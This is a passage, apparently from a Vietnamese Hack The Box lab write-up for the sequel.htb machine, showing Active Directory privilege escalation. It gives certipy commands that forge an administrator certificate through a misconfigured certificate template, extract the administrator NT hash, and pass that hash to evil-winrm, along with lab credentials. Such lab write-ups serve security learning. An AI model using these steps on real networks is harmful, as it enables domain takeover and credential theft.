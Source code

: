 Để khai thác điều này, sử dụng certipy.

```
certipy req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target sequel.htb -ca sequel-dc-ca -template UserAuthentication
```

![alt text](image-14.png)

```
Lưu ý: Nếu gặp lỗi The NetBIOS connection with the remote host timed out., chạy lại lệnh.
```

Bây giờ đã có certificate cho administrator, có thể sử dụng certipy một lần nữa để lấy Ticket Granting Ticket (TGT) và trích xuất hash NT cho user này. Vì bước này yêu cầu một số tương tác Kerberos, cần đồng bộ hóa đồng hồ với thời gian của remote machine trước khi có thể tiếp tục.

```
sudo ntpdate -u dc.sequel.htb
```

Bây giờ, có thể tiếp tục.

```
certipy auth -pfx administrator.pfx 
```

![alt text](image-15.png)

Cuối cùng, có thể truyền hash qua WinRM và xác thực với tư cách là user administrator.

```
evil-winrm -i sequel.htb -u administrator -H a52f78e<SNIP>58f4ee
```

![alt text](image-16.png)
